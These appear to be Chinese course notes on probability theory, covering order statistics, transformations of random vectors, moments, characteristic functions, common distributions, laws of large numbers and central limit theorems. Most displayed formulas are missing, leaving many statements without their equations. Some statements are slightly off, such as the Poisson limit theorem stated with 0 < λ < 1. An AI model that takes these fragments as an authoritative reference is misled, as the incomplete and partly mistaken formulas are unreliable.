\[ P(\xi_{(n)} \leq x) = P(\xi_1 \leq x, \xi_2 \leq x, \dots, \xi_n \leq x) \]\[ = P(\xi_1 \leq x) P(\xi_2 \leq x) \cdots P(\xi_n \leq x) \]\[ = [F(x)]^n. \] -
\( \xi_{(1)} \) 的分布函数
先考虑 \( \{\xi_{(1)} \leq x\} \) 的逆事件 \( \{\xi_{(1)} > x\} \)，
\[ P(\xi_{(1)} > x) = P(\xi_1 > x, \xi_2 > x, \dots, \xi_n > x) \]\[ = P(\xi_1 > x) P(\xi_2 > x) \cdots P(\xi_n > x) \]\[ = [1 - F(x)]^n. \]故
\[ P(\xi_{(1)} \leq x) = 1 - [1 - F(x)]^n. \] -
\( (\xi_{(1)}, \xi_{(n)}) \) 的联合分布函数
\[ F(x, y) = P(\xi_{(1)} \leq x, \xi_{(n)} \leq y) \]\[ = P(\xi_{(n)} \leq y) - P(\xi_{(1)} > x, \xi_{(n)} \leq y) \]\[ = [F(y)]^n - P \left( \bigcap_{i=1}^n (x < \xi_i \leq y) \right). \]因此当 \( x < y \) 时，
\[ F(x, y) = [F(y)]^n - [F(y) - F(x)]^n. \]当 \( x \geq y \) 时，
\[ F(x, y) = [F(y)]^n. \]如果 \( \xi_1, \dots, \xi_n \) 是连续型随机变量，有密度 \( p(x) = F'(x) \)，则上面各随机变量（向量）也是连续型的，可将各分布函数求导以得到密度函数。
4.第k小值的密度函数
其中\(f(x)\)是密度函数
在前面有\(k-1\)个小于\(x\)的值,再挑一个在\(x\)领域的值，有\(n-k\)个大于\(x\)的值，让领域缩小，除以该领域就得到密度函数
如果是多个就多个小领域，然后除以小领域的长度
Warning
这种从负无穷积分到正无穷的写法只是形式上的，实际上我们要根据具体密度函数的取值来进一步判断积分区域
多个值函数¶
我们仅考虑连续型随机向量的变换。
假设 \((X, Y)\) 为连续型随机向量，具有联合密度函数 \(p(X, Y)(x, y)\)。变换如下：
求 \((U, V)\) 的分布？
- 基本方法
如果\(f_1\)和\(f_2\)可逆，那么
取Jacobian行列式
那么
即
Key-point
\(x,y\)分别用\(u,v\)表示，再乘以雅克比行列式,可以推广到\(n\)维随机向量的情况：
设 \((\xi_1, \ldots, \xi_n)\) 的密度函数为 \(p(x_1, \ldots, x_n)\). 现在有 \(m\) 个函数: \(\eta_1 = f_1(\xi_1, \ldots, \xi_n), \ldots, \eta_m = f_m(\xi_1, \ldots, \xi_n)\), 则 \((\eta_1, \ldots, \eta_m)\) 也是随机变量. 除了各边际分布外，还要求其联合分布. 例如 (2.67) 式，其联合分布函数为
这里 \(D\) 是 \(n\) 维区域: \(\{(x_1, \ldots, x_n): f_1(x_1, \ldots, x_n) \leq y_1, \ldots, f_m(x_1, \ldots, x_n) \leq y_m\}\).
如果 \(m = n, f_j, j = 1, \ldots, n\) 有唯一的反函数组: \(x_i = x_i(y_1, \ldots, y_n), i = 1, \ldots, n\), 且
则 \((\eta_1, \ldots, \eta_n)\) 是连续型随机变量. 当 \((y_1, \ldots, y_n) \in (f_1, \ldots, f_n)\) 的值域时，其密度为
其他情况, \(q(y_1, \ldots, y_n) = 0\).
Example
Property
实际上，对于联合正态分布，我们可以设
其中A为\(\dfrac{1}{1-\rho^2}\)的一个数乘矩阵
那么联合正态分布的密度函数为
设
设
那么
取逆变换
故
Key-point
即\((U,V)\)的协方差矩阵为\(A \Sigma A^{\mathrm{T}}\), 均值为\(A\boldsymbol{\mu}\); 总结而言，对于\((X,Y)\)的联合正态分布做线性变换，新的随机向量仍然是联合正态分布，且均值也做了相应的线性变换，协方差矩阵做了相应的 变换 ，但是转置在后面。
如果做极坐标变换
联合密度函数：
可以简化为：
边际分布：
-
对于 \(\rho\)：
\[ \rho \sim p_\rho(\rho) = \rho e^{-\frac{\rho^2}{2}}, \quad \rho > 0 \] -
对于 \(\theta\)：
\[ \theta \sim p_\theta(\theta) = \frac{1}{2\pi}, \quad 0 < \theta < 2\pi \]
独立性： \(\rho\) 和 \(\theta\) 是独立的随机变量。
称 \(\rho\) 为 Rayleigh 分布，\(\theta\) 为均匀分布。
Eg
$\xi, \eta $相互独立，都服从参数为 1 的指数分布，求 \(\alpha = \xi + \eta\) 与 \(\beta = \dfrac{\xi}{\eta}\) 的联合密度；并分别求出 \(\alpha\)与 \(\beta\) 的密度。
\((\xi, \eta)\) 的联合密度为：当 \(x > 0\) 且 \(y > 0\) 时，
其他情况为 0。
函数组为：
计算雅可比行列式：
故
\((\alpha, \beta)\) 的联合密度为：
\(\alpha = \xi + \eta\) 与 \(\beta = \dfrac{\xi}{\eta}\) 各自的密度为 \(q(u, v)\) 的边际密度。不难看出：
和
并且 \(\alpha,\beta\) 相互独立。
本例中，自然也可以用单元的方法计算 \(\xi + \eta\) 各自的分布，但这里的方法显然更便捷,更方便。
Key-point
这是一个富有有趣性的例子，它告诉我们：
-
要判断随机变量的几个函数是否独立，可用随机变量变换求得它们的联合分布，再用独立性的各种必要条件来判断；
-
要求随机变量的一个函数的分布，有时可作适当补充，先求它们的联合分布，而后要求的函数的分布则作为求其边际分布。
所以对于我们前面讨论的单元函数，也可以将其补全为多元，再计算边际分布，例如对于\(\alpha = \xi + \eta\)，我们可以将其补全为\((\alpha,\beta) = (\xi + \eta, \eta)\)，再计算\((\alpha,\beta)\)的联合分布，最后求出\(\alpha\)的边际分布，这与我们前面的结果是一样的
数字特征¶
约 3969 个字 预计阅读时间 14 分钟
数学期望¶
数学期望的定义
设\(X\)是一个离散型随机变量，\(X\)的数学期望（或称为期望值）是\(X\)所有可能取值的加权平均，记为\(E(X)\)或\(\mu\)，即
其中，\(x_i\)是\(X\)的可能取值，\(P(X=x_i)\)是\(X\)取值为\(x_i\)的概率。
若\(X\)是一个连续型随机变量，其概率密度函数为\(p(x)\)，则\(X\)的数学期望为
数学期望的意义在于，当随机变量\(X\)独立重复地进行大量实验时，\(X\)的平均值将趋于\(E(X)\)。
数学期望跟参数有关，有几个参数就跟几个参数有关。
常见分布的数学期望
若\(X\sim B(n,p)\)，则
若\(X\sim P(\lambda)\)，则
若\(X\sim G(p)\)，则
若\(X\sim U(a,b)\)，则
若\(X\sim E(\lambda)\)，则
若\(X\sim N(\mu,\sigma^2)\)，则
若\(X\sim H(N,M,n)\)，则
在计算数学期望的时候需要用到级数的知识，需要考虑到函数列是否一致收敛来运用逐项求导或者求积分，级数是否绝对收敛来判断是否可以用级数的重排；
Note
为了避免同一个随机变量因为排序不同造成的数学期望不同，我们要求
是绝对收敛的(\(\sum_{i=1}^{\infty}\lvert x_ip_i \rvert\)收敛)，即该级数的任意一个重排都收敛于同一个值。 如果是连续型随机变量，则要求
可积。
数学期望的性质¶
- 有界:
即数学期望不会超过随机变量的取值范围。
- 线性运算
从求和和积分的性质可以得到。
- 加法定理
假设 \((X, Y) \sim p(x, y)\)，那么 \(Z = X + Y\) 具有密度
所以
推广：
应用
假设 \(X_1, X_2, \dots, X_m\) 是非负、独立同分布的随机变量，求
存在，有限。另外，
所以，
加法定理计算期望
令 \( N \) 是产品总数，\( M \) 是次品数，现抽取 \( n \) 件产品检查，其中 \( n \leq M \)。
令 \( S_n \) 表示 \( n \) 件抽查产品中次品的个数。那么
下面给出 \( X \) 的另一种表示：令 \( \xi_i \) 表示第 \( i \)-次抽检时次品个数，
那么
Key-point
\(X_i\)指第\(i\)次抽到的是不是次品，这相当于抽奖，无论抽奖顺序是什么，每个人抽到的概率都是一样的，所以\(X_i\)是同分布的，但是不独立。
如果随机变量\(X\)和\(Y\)独立，那么\(E(XY)=E(X)E(Y)\)，如果\(E(XY)=E(X)E(Y)\)，并不一定有\(X\)和\(Y\)独立。
随机变量函数的数学期望¶
随机变量函数的数学期望可以用以下公式来定义：
\((\Omega,\mathcal{F},P)\)是一个概率空间, \(X:\Omega \to \mathbf{R}\)是一个随机变量，\( g(X) \) 是 \( X \) 的一个实值可测函数，那么 \( g(X) \) 的数学期望 \( E[g(X)] \) 定义为：
期望 \( E[g(X)] \) 为：
其中 \( P(X = x) \) 是 \( X \) 取值为 \( x \) 的概率。
期望 \( E[g(X)] \) 为：
其中 \( f_X(x) \) 是 \( X \) 的概率密度函数。
如果\(X\)有分布函数，那么
方差¶
Definition
方差是用来衡量随机变量偏离其均值的程度的指标。设 \( X \) 是一个随机变量，其数学期望为 \( E(X) \)，则 \( X \) 的方差记作 \( \operatorname{Var}(X) \) 或 \( \sigma^2 \)，定义如下：
方差定义的是随机变量 \( X \) 与其均值 \( E(X) \) 偏差的平方的期望。它反映了 \( X \) 取值的分散程度。方差越大，说明 \( X \) 的取值离均值越远，分散性越大；方差越小，说明 \( X \) 的取值集中在均值附近，分散性较小。
\(\sqrt{\operatorname{Var}(X)}\) 称为随机变量 \( X \) 的标准差，记作\(\sigma\)
常见分布的方差
若\(X\sim B(n,p)\)，则
若\(X\sim P(\lambda)\)，则
对于泊松分布，方差等于数学期望，这是泊松分布的一个特性。
若\(X\sim G(p)\)，则
若\(X\sim U(a,b)\)，则
若\(X\sim E(\lambda)\)，则
若\(X\sim N(\mu,\sigma^2)\)，则
若\(X\sim H(N,M,n)\)，则
计算公式¶
可以通过以下公式计算方差：
Proof
方差的定义是：
展开括号，得到：
利用期望的线性性质，得到：
由于 \( E(X) \) 是一个常数，所以 \( E(X) \cdot E(X) = [E(X)]^2 \)，因此可以简化为：
该公式表明，计算方差时可以通过求 \( X \) 的平方的期望 \( E(X^2) \) 减去 \( X \) 的期望的平方 \( [E(X)]^2 \) 来得到。这种形式通常更方便，尤其是在 \( E(X) \) 和 \( E(X^2) \) 容易求得的情况下，可以简化计算。
其中：
-
\( E(X^2) \) 是 \( X \) 的平方的期望，即二阶矩。
-
\( [E(X)]^2 \) 是 \( X \) 的期望的平方。
方差的性质¶
- 非负性：
方差总是非负的，即 \( \operatorname{Var}(X) \geq 0 \)。
- 平移不变性
若 \( c \) 为常数，则 \( \operatorname{Var}(X + c) = \operatorname{Var}(X) \)。
- 方差的线性变换
对于独立随机变量 \( Y \) ，以及常数 \( a \) 和 \( b \)，有
- 方差的加法
对于独立随机变量 \( X \) 和 \( Y \)，有
其中，\( \operatorname{Cov}(X,Y) \) 是 \( X \) 和 \( Y \) 的协方差，即
如果\(X,Y\)相互独立，则\(\operatorname{Cov}(X,Y)=0\)，所以
可推广到多个独立随机变量的情况。
选择平均值的原因¶
在计算方差时，我们通常使用平均值作为中心点，而不是其他值。这是因为平均值是使方差最小的点。也就是说，对于任何实数 \( c \)，有
Proof
切比雪夫不等式(Chebyschev)¶
设 \((\Omega, \mathcal{A}, P)\) 是概率空间， \(X : \Omega \rightarrow \mathbb{R}\) 是随机变量，那么对任意 \(\varepsilon > 0\)，
Note
切比雪夫不等式给出了随机变量偏离其均值大于某个精度的概率的上界。
仅取 \(X \sim p(x)\) 加以证明。
推广
若 \(f\) 是单调不减严格正函数，那么
事实上，使用了Markov不等式:
协方差矩阵¶
均值向量¶
对于一个随机向量 \( X = (X_1, X_2, \dots, X_n) \)，如果\(X_i\)的数学期望存在；其均值向量 \( \mu \) 定义为：
协方差¶
假设\(X\)和\(Y\)是两个随机变量，且两者的数学期望和方差都存在，那么\(X\)和\(Y\)的协方差定义为：
协方差也可以表示为：
Cauchy-Schwarz不等式
对于任意两个随机变量\(X\)和\(Y\)，有
运用任意实数\(t\),满足
展开利用二次函数的性质即可；
协方差矩阵为
对于二元随机变量 \( X = (X_1, X_2) \)，协方差矩阵为
Key-point
协方差矩阵是一个非负定矩阵，即对于任意非零列向量 \( a \)，有 \( a^T \Sigma a \geq 0 \)。
如果\(X\), \(Y\)相互独立，此时 \(E(XY)=E(X)E(Y)\) 那么\(\operatorname{Cov}(X, Y) = 0\)，反之，如果\(\operatorname{Cov}(X, Y) = 0\)，并不一定有\(X\)和\(Y\)相互独立，但是可以定义为不相关。
Example
二元联合正态分布的协方差为\(\rho \sigma_1 \sigma_2\)
相关系数¶
Definition
二元函数的相关系数（Correlation Coefficient）用来衡量两个随机变量 \( X \) 和 \( Y \) 之间的线性关系，其定义基于协方差和标准差，计算公式如下：
其中：
- \(\operatorname{Cov}(X, Y)\) 是 \( X \) 和 \( Y \) 的协方差，定义为：
- \(\sigma_X\) 和 \(\sigma_Y\) 分别是 \( X \) 和 \( Y \) 的标准差，定义为：
其中方差为：
- 取值范围：
- 当 \(\rho(X, Y) = 1\) 时，\( X \) 和 \( Y \) 完全正线性相关。
- 当 \(\rho(X, Y) = -1\) 时，\( X \) 和 \( Y \) 完全负线性相关。
-
当 \(\rho(X, Y) = 0\) 时，\( X \) 和 \( Y \) 没有线性关系，但不一定独立。
-
无量纲性： \(\rho(X, Y)\) 是一个无量纲量，反映的是两变量线性关系的强弱，与变量的量纲无关。
-
对称性：
一般也用\(\gamma\)来表示相关系数
条件期望¶
对于两个随机变量X，Y，其条件期望定义为：
给定\(Y=y_i\),\(X\)的条件期望定义为
要求该级数绝对收敛
若给定\(X\),\(Y\)的条件期望也是类似
所以
要求该积分绝对可积
若给定\(X\),\(Y\)的条件期望也是类似
全期望公式¶
每一个 \(y_j\)，对应一个条件期望 \(E(X|Y = y_j)\)，即
定义
即
它是 \(Y\) 的函数，所以是随机变量。求 \(Eg(Y)\)；
Key-point
\(E(E(X|Y))=EX\),\(E(E(Y|X))=EY\) 这个结论对于离散，随机，连续变量都成立
矩¶
- k 阶矩，k 阶中心矩:
假设 \((\Omega, \mathcal{A}, P)\) 概率空间，\(X: \Omega \to \mathbb{R}\) 随机变量
如果 \(E|X|^k < \infty, k \geqslant 1\)，那么称
Example
\( X \sim N(0, \sigma^2) \)，那么
并且
\( X \sim \mathcal{P}(\lambda) \)，那么
并且
Warining
一般来说，随机变量任意K阶矩都相等，并不能保证随机变量的分布相同。但是正态分布和泊松分布可以由k阶矩来确定。
定理
假设 \(X, Y\) 是两个随机变量，并且对任意 \(k \geq 1\),
如果下列三个条件之一成立：
(i)
(ii)
(iii)
那么
特征函数¶
\((\Omega, A, P), X : \Omega \to \mathbb{R}, X \sim F_X(x)\). 定义
其中
一定存在有限。
实变量复值函数
目的：利用复分析研究随机变量的分布性质。
意义：对概率论的发展起着重要作用。
常见分布的特征函数
若\(X\)是一个常数\(c\)，那么
若\(X\)是一个两点分布，\(P(X = 1) = p, \quad P(X = 0) = 1 - p\)，那么
若\(X \sim B(n, p)\)，那么
若\(X \sim P(\lambda)\)，那么
若\(X \sim U(a, b)\)，那么
若\(X \sim E(\lambda)\)，那么
若\(X \sim N(0, 1)\)，那么
普通的正态分布
特征函数的分析性质¶
-
\( \varphi(0) = 1 \)
-
\( |\varphi(t)| \leqslant 1 = \varphi(0) \) 模长有界
-
\( \varphi(-t) = \overline{\varphi(t)} \) 共轭对称
-
\( \varphi(t) \) 在 \( \mathbb{R} \) 上一致连续。
-
Bochner 非负定性
对于任何实数 \( t_1, t_2, \ldots, t_n \)，任何复数 \( a_1, a_2, \ldots, a_n \)
- 可微性
假设 \( E|X| < \infty, \quad EX = \mu \)，那么
并且
事实上，
因为
\(e^{itx}\)求导之后被一个可积函数控制，
所以
类似地，如果 \( E|X|^k < \infty \)，那么
特别，如果 \( E|X| < \infty \)，那么 \( \varphi(t) \) 在 0 处可以进行 \( k \) 次展开：
特征函数的运算性质¶
- 令 \( X \) 的特征函数为 \( \varphi_X(t) \)，那么
如果 \( Y \sim N(\mu, \sigma^2) \)，那么可写成
因此，
- 令 \( X \) 和 \( Y \) 为两个随机变量，那么
在X,Y相互独立的情况下，这个公式成立。
推广：
如果 \( X_1, X_2, \ldots, X_n \) 相互独立，那么
Eg
\(S_n \sim B(n,p)\)，那么\(S_n =\sum_{i=1}^n X_i\)，其中\(X_i\)是独立同分布的两点分布随机变量，那么
Warning
注意计算特征函数的时候不要直接把求期望放到指数上,即
是不对的
唯一性问题¶
分布函数和特征函数相互唯一确定吗?
假设 \(X\) 和 \(Y\) 的分布函数相同，那么它们的特征函数相同是显然的；
但是，特征函数相同，\(X\) 和 \(Y\) 的分布函数是否相同呢？
即
是否能推出
唯一性定理
那么
实际上，
有推论:
如果 \( X \) 的特征函数 \( \varphi(t) \) 绝对可积，即
那么 \( X \) 具有密度函数 \( p(x) \)，并且
如果是离散型，那么 假设 \(\varphi(t)\) 是一个特征函数，如果
并且
那么
注意，某些 \(a_k\) 可能为 0。
Example
假设 \((X, Y)\) 是二元联合正态随机变量
求：\(\phi(t_1, t_2) = ?\)
为简单起见，假设 \(\mu_1 = 0, \sigma_1^2 = 1; \mu_2 = 0, \sigma_2^2 = 1\)，即
令
作线性变换：
这样，\((U, V) \sim N(0, 1; 0, 1; 0)\)，即 \(U, V\) 相互独立。所以，
这里最后一个等号是运用了 \(\phi_{U,V}\)特征函数的变量替换和转置的性质；
这种变换的方式很好用，可以把标准联合正态分布的相关系数变为0；
多元随机向量的特征函数
设\(\mathbf{X}\)是一个多元随机向量,\(\mathbf{t}=(t_1,t_2,\ldots,t_n) \in \mathbb{R}^n\),定义
即两者做内积的期望;
常见分布¶
至今为止,概率论的数字特征部分已经结束,开始概率极限理论的学习之前,在此总结一下苏老师课上提到过的各种分布的表达,密度函数(或概率),期望,方差,特征函数;
退化分布,为离散型随机变量,取某个值的概率为1,其余取值的概率为0;
$$ P(X=a)=1 $$
期望为\(E(X)=a\),方差为\(Var(X)=0\),特征函数为\(e^{ita}\);
即 伯努利分布 ，Bernoulli distribution,离散型
可以记为\(X\sim B(1,p)\);
期望为\(E(X)=p\),方差为\(Var(X)=p(1-p)\),特征函数为\(pe^{it}+1-p\);
即 binomial distribution，离散型
记为 \(\xi\sim B(n,p)\)
期望为\(E(X)=np\),方差为\(Var(X)=np(1-p)\),特征函数为\((pe^{it}+1-p)^n\);
即 Poisson distribution，离散型
记为 \(\xi\sim\mathcal{P}(\lambda)\)
期望和方差均为\(\lambda\),特征函数为\(e^{\lambda(e^{it}-1)}\),使用凑成泰勒展开推导;
即 geometry distribution,一般用于解决第一次成功的问题,离散型
可以记为\(X\sim G(p)\);(Geometric distribution)
期望为\(E(X)=\frac{1}{p}\),方差为\(Var(X)=\frac{1-p}{p^2}\),特征函数为\(\frac{pe^{it}}{1-(1-p)e^{it}}\);推导过程是等比数列求和.
即 hypergeometry distribution，一般用于解决次品抽样问题,离散型
可以记为\(X\sim H(N,M,n)\);(Hypergeometry distribution)
期望为\(E(X)=\frac{nM}{N}\),方差为\(Var(X)=\frac{nM}{N}(1-\frac{M}{N})(\frac{N-n}{N-1})\),特征函数似乎没见过;
即 uniform distribution,连续型,有密度函数
记为\(X\sim U(a,b)\);
数学期望为\(E(X)=\frac{a+b}{2}\),方差为\(Var(X)=\frac{(b-a)^2}{12}\),特征函数为\(\frac{e^{itb}-e^{ita}}{it(b-a)}\);三者推导都是无情积分;
即 exponential distribution,连续型
记为\(X\sim E(\lambda)\);
数学期望为\(E(X)=\frac{1}{\lambda}\),方差为\(Var(X)=\frac{1}{\lambda^2}\),特征函数为\(\frac{\lambda}{\lambda-it}\);
即 normal distribution,连续型,有密度函数
记为\(X\sim N(\mu,\sigma^2)\);
数学期望为\(E(X)=\mu\),方差为\(Var(X)=\sigma^2\),特征函数为\(e^{i\mu t-\frac{1}{2}\sigma^2 t^2}\); 特别地，\(X\sim N(0,1)\)称为标准正态分布;其特征函数为\(e^{-\frac{1}{2}t^2}\);
若\(\xi_1,\xi_2,\cdots,\xi_n\)独立同分布于标准正态分布\(N(0,1)\),则称\(\xi_1^2+\xi_2^2+\cdots+\xi_n^2\)服从卡方分布,为连续型
有密度函数
记为\(\chi^2 \sim \chi^2(v)\);
\(v\) 为自由度,指的是自由变量的个数(\(n-r\)),\(r\) 为约束条件的个数;
期望为\(E(\chi^2)=v\),方差为\(Var(\chi^2)=2v\),特征函数为\((1-2it)^{-\frac{v}{2}}\);
记忆较为繁琐,可以只记住伽马分布即可;
即 Gamma distribution,连续型,有密度函数
记为\(X\sim \Gamma(\alpha,\lambda)\);
期望为\(E(X)=\frac{\alpha}{\lambda}\),方差为\(Var(X)=\frac{\alpha}{\lambda^2}\);
特征函数为\((1-\dfrac{it}{\lambda})^{-\alpha}\);
可以看到令\(\lambda=\dfrac{1}{2},\alpha=\dfrac{v}{2}\)时,\(\Gamma\)分布即为\(\chi^2\)分布;
概率极限理论¶
约 2138 个字 预计阅读时间 7 分钟
伯努利大数定律¶
给定\(p \in (0, 1)\)，记\(S_n \sim \text{Binomial}(n, p)\)，则
即频率与概率的偏差的概率随着试验次数的增加而趋近于0
Possion 极限定理¶
令 \(0 < p_n < 1\)，假设 \(S_n \sim B(n, p_n)\)，如果 \(np_n \to \lambda\)，并且 \(0 < \lambda < 1\) 那么对任何 \(k = 0, 1, 2, \ldots\)
证明：由于 \(S_n \sim B(n, p_n)\)
Chebyshev 大数律¶
Chebyshev 不等式: 对任意随机变量 \(X\), \(EX\) 和 \(EX^2\) 存在有限, 那么对任意 \(\varepsilon > 0\)
应用 Chebyshev 不等式证明 Bernoulli 大数律
Chebyshev 大数律
假设 \(\xi_k, k \geqslant 1\) 是一列随机变量，\(E\xi_k = \mu\)。记 \(S_n = \sum_{k=1}^{n} \xi_k\)，如果
那么
更一般地，假设 \(\xi_k, k \geqslant 1\) 是一列随机变量，\(E\xi_k = \mu_k\)。如果
那么
Chebyshev 大数律的证明
对任意 \(\varepsilon > 0\),
这里\(S_n\) 对应Chebyshev不等式中的\(X\)，\(\sum_{k=1}^{n} \mu_k\) 对应Chebyshev不等式中的\(\mu\)
\(n\varepsilon\) 对应Chebyshev不等式中的\(\varepsilon\)
Chebyshev 大数律的意义: 1. 样本均值渐近逼近均值
-
没有独立性要求
-
Chebyshev 大数律的不足之处: 要求方差存在
Khinchin 大数律¶
假设 \(\xi_k, k \geqslant 1\) 是一列独立同分布的随机变量，且 \(E\xi_k = \mu\)，记 \(S_n = \sum_{k=1}^{n} \xi_k\)，那么
De Moivre-Laplace 中心极限定理¶
De Moivre公式
假设 \(S_n \sim B(n, p)\)，那么
-
左边：规范化 \(\frac{S_n - np}{\sqrt{np(1-p)}}\) 随机变量的分布函数
-
右边：正态分布函数
利用De Moivre-Laplace定理证明
在伯努利试验中，若\(p \in (0, 1)\)，则不管\(A\)是多大的常数，总有
将其化为标准形式，则
由De Moivre-Laplace定理，右边是趋向于0,所以原概率相当于
其中 \(X\) 是标准正态分布
但是，这一结果是否与大数定律相矛盾呢，直观上理解有些困难，但是，我们将其化为大数定律的形式来看的话，就有
但是大数定律的结论是,对于任意给定的\(\epsilon > 0\),总有
那么结果就很明了了，大数定律需要\(\epsilon\)给定,但是这里的\(\dfrac{A}{n}\)是与\(n\)有关一直变化的，并不满足大数定律的条件，所以，大数定律与这个结论并不矛盾，关键就在于\(A\)是给定的常数导致它除以\(n\)后，\(\epsilon\)是变化的。
依概率收敛¶
\((\Omega, \mathcal{S}, P)\) 是一个概率空间，\(X, X_n, n \geqslant 1\) 是一列随机变量，如果对任意 \(\epsilon > 0\),
称 \(X_n\) 依概率收敛到 \(X\)，记做 \(X_n \xrightarrow{P} X\)。
按此概念，Bernoulli 大数律可写成
依概率收敛的性质
如果 \(X_n \xrightarrow{P} X\) 且 \(X_n \xrightarrow{P} Y\)，那么
证明
因此, 需要证明对任意 \(\epsilon > 0\),
给定 \(\epsilon > 0\), 对任意 \(n \geqslant 1\)
这里运用了三角不等式，小的发生，大的一定也发生；
这里是因为
令 \(n \to \infty\),
因此
如果存在某 \(r > 0\), 成立
那么
如果 \(X_n \xrightarrow{P} X, Y_n \xrightarrow{P} Y\), 那么
(i) \(X_n \pm Y_n \xrightarrow{P} X \pm Y\)
(ii) \(X_n \cdot Y_n \xrightarrow{P} X \cdot Y\)
(iii) 如果 \(P(Y \neq 0) = 1\), 那么 \(\frac{X_n}{Y_n} \xrightarrow{P} \frac{X}{Y}\)
假设 \(f: \mathbb{R} \mapsto \mathbb{R}\) 是连续映射，如果 \(X_n \xrightarrow{P} X\)，那么
证明
设 \(\epsilon' > 0\)，存在 \(M > 0\)，使得
由于 \(\xi_n \xrightarrow{P} \xi\)，故存在 \(N_1 \geqslant 1\)，当 \(n \geqslant N_1\) 时，\(P(|\xi_n - \xi| \geqslant \frac{M}{2}) \leqslant \frac{\epsilon'}{4}\)。因此
又因 \(f(x)\) 在 \((-\infty, \infty)\) 上连续，从而在 \([-M, M]\) 上一致连续。对给定的 \(\epsilon > 0\)，存在 \(\delta > 0\)，当 \(|x - y| < \delta\) 时，\(|f(x) - f(y)| < \epsilon\)。这样
对上述的 \(\delta\)，存在 \(N_2 \geqslant 1\)，当 \(n \geqslant N_2\) 时，
当 \(n \geqslant \max(N_1, N_2)\) 时，
依分布收敛¶
假设 \((\Omega, \Sigma, P)\) 是概率空间，\(X, X_n, n \geqslant 1\) 是一列随机变量，\(F, F_n, n \geqslant 1\) 是一列相应的分布函数，如果对于 \(F\) 的任意连续点 \(x\),
称 \(F_n\) 依分布收敛于 \(F\)，记 \(F_n \xrightarrow{d} F\) 或者 \(X_n \xrightarrow{d} X\)。
按此概念，中心极限定理可写成
Tip
-
如果 \( F \) 是在 \(\mathbb{R}\) 上连续, 那么 \( F_n \) 处处收敛到 \( F \)
-
一般地,\( F \)不是连续函数(左极限存在，右连续的函数)
-
既然 \(F\) 是单调有界函数，\(F\) 的不连续点集最多可数个：
- \(F\) 的连续性点集在 \(\mathbb{R}\) 上稠密。
依概率收敛与依分布收敛的关系
证明的关键在于构造夹逼项;
如果 \( \xi_n \xrightarrow{P} \xi \)，那么 \( \xi_n \xrightarrow{d} \xi \)
假设 \(F\) 和 \(F_n\) 分别是 \(\xi\) 和 \(\xi_n\) 的分布函数，那么对任意给定 \(\epsilon > 0\)，有
因此
令 \(n \to \infty\)，由于 \(P(\xi_n - \xi > \epsilon) \to 0\)，所以
同理
从而
因此
但是如果 \(X_n \xrightarrow{d} C\)，那么 \(X_n \xrightarrow{P} C\)
其中 \(C\) 是常数
如果 \(\xi_n \xrightarrow{d} c\)，则
因此对任意 \(\epsilon > 0\)，有
定理证毕。
-
Levy 连续性定理:
假设 \(X, X_n, n \geqslant 1\) 是一列随机变量，具有特征函数 \(\phi, \phi_n, n \geqslant 1\)。那么
\[ X_n \xrightarrow{d} X \iff \phi_n(t) \to \phi(t), \quad t \in \mathbb{R} \] -
Levy 连续性定理的另一种形式:
假设 \(X_n, n \geqslant 1\) 是一列随机变量，具有特征函数 \(\phi_n, n \geqslant 1\)。如果
\[ \phi_n(t) \to \phi(t), \quad t \in \mathbb{R} \]并且 \(\phi\) 在 0 处连续，那么 \(\phi\) 一定是特征函数。记与 \(\phi\) 相应的随机变量为 \(X\)，那么
\[ X_n \xrightarrow{d} X \]
运用Levy定理，如果要证明一列随机变量依分布收敛于某个随机变量，只需要证明这列随机变量的特征函数收敛于该随机变量的特征函数。
应用
回忆 \(\xi_k, k \geqslant 1\) 独立同分布，\(E\xi_k = \mu\)，那么
证明：只需证明
在 0 处进行 Taylor 展开，
所以，对每个 \(t \in \mathbb{R}\),
回忆 \(\xi_k, k \geqslant 1\) 独立同分布，\(E\xi_k = \mu, \operatorname{Var}(\xi_k) = \sigma^2\)，那么
证明：只需证明
注意到
在 0 处进行 Taylor 展开，
所以，对任意 \(t\),
依分布收敛的性质
-
- 如果 \(X_n \xrightarrow{d} X\)，\(a_n,b_n \rightarrow a,b\)，那么 \(a_nX_n + b_n \xrightarrow{d} aX + b\)
线性性:
- 如果 \(X_n \xrightarrow{d} X\)，\(Y_n \xrightarrow{P} Y\)，那么 \(X_n Y_n \xrightarrow{d} X Y\)
-
连续映射保依分布收敛:
- 如果 \(X_n \xrightarrow{d} X\)，且 \(f: \mathbb{R} \mapsto \mathbb{R}\) 是连续映射，那么 \(f(X_n) \xrightarrow{d} f(X)\)
Helly引理
假设 \(F, F_n, n \geq 1\) 是一列分布函数，并且 \(F_n \xrightarrow{d} F\)，那么对任意有界连续函数 \(g\)
这样，对任意 \(t \in \mathbb{R}\),
结论成立

心得
在证明这些性质时常用的放缩有
-
\(P( a < A) \leqslant P( b < A ) (b<a)\) 大的发生(小于A)，小的一定也发生
-
\(P(a > A) \leqslant P(b > A) (b > a)\) 小的发生(大于A)，大的一定也发生
-
\(P(A_n) \leqslant P(A_n,B_n)+P(A_n,B_n^c)\),至少有一个发生
-
\(P(A_n) \geqslant P(A_n,B_n)\) 条件加强，概率变小,反过来使用就是条件减弱，概率变大
Levy-Feller 中心极限定理¶
- Levy-Feller 中心极限定理
假设 \(\xi_k, k \geqslant 1\) 是一列独立同分布随机变量，\(E\xi_k = \mu, \operatorname{Var}(\xi_k) = \sigma^2\)。记 \(S_n = \sum_{k=1}^{n} \xi_k\)，那么对任意 \(x\),
即
Levy-Feller 中心极限定理的意义
-
应用于一般随机变量，推广了 de Moivre-Laplace 中心极限定理。
-
说明测量误差可用正态分布描述，即正态分布无处不在。
假设测量值为 \(X_i\)，真值为 \(\mu\)。每次误差为 \(X_i - \mu\)，\(n\) 次观测所得误差叠加，记为 \(\sum_{i=1}^{n}(X_i - \mu)\)。那么
Lyapunov 中心极限定理¶
假设 \(\xi_k, k \geqslant 1\) 是一列独立随机变量不一定同分布，\(E\xi_k = \mu_k\)，\(\operatorname{Var}(\xi_k) = \sigma_k^2\)。记 \(S_n = \sum_{k=1}^{n} \xi_k\)，\(B_n = \sum_{k=1}^{n} \sigma_k^2\)。如果
- \(B_n \to \infty\)
- \(E|\xi_k|^3 < \infty\)，且
那么对任意 \(x\)
即
Lyapunov 中心极限定理的意义
-
推广了 Levy-Feller 中心极限定理。
-
解决了不同分布的随机变量和的中心极限问题。
-
Lyapunov 条件可以推出 Lindeberg 条件
Lindeberg 条件
假设 \(\{\xi_n\}\) 是独立随机变量序列，\(F_k\) 为对应分布函数，且每个变量有有限期望和方差 \(a_k, \sigma_k^2\)。
